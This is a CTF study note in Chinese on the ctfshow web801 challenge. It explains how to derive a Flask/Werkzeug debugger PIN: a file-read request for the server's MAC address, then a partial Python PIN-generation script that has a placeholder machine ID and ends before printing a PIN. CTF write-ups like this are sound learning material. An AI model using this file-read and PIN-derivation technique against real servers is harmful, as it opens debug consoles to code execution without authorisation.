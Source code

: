 ```yaml
---
title: ctfshow-常用姿势
date: 2024-12-01 19:48:14
tags: ctfshow
categories: 学习笔记
---
```


## **flask算PIN**

### web801

先获取mac地址

```
/file?filename=/sys/class/net/eth0/address
```

![image-20241201200156755](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012001827.png)

先把冒号去了，然后十六进制再转十进制

得到

```
2485377605532
```

我们找个flask算pin的脚本

```py
import hashlib
import getpass
from flask import Flask
from itertools import chain
import sys
import uuid
import typing as t
username='root'
app = Flask(__name__)
modname=getattr(app, "__module__", t.cast(object, app).__class__.__module__)
mod=sys.modules.get(modname)
mod = getattr(mod, "__file__", None)

probably_public_bits = [
    username, #用户名
    modname,  #一般固定为flask.app
    getattr(app, "__name__", app.__class__.__name__), #固定，一般为Flask
    '/usr/local/lib/python3.8/site-packages/flask/app.py',   #主程序（app.py）运行的绝对路径
]
print(probably_public_bits)
mac ='02:42:ac:0c:ac:28'.replace(':','')
mac=str(int(mac,base=16))
private_bits = [
   mac,#mac地址十进制
 "机器码"
     ]
print(private_bits)
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
```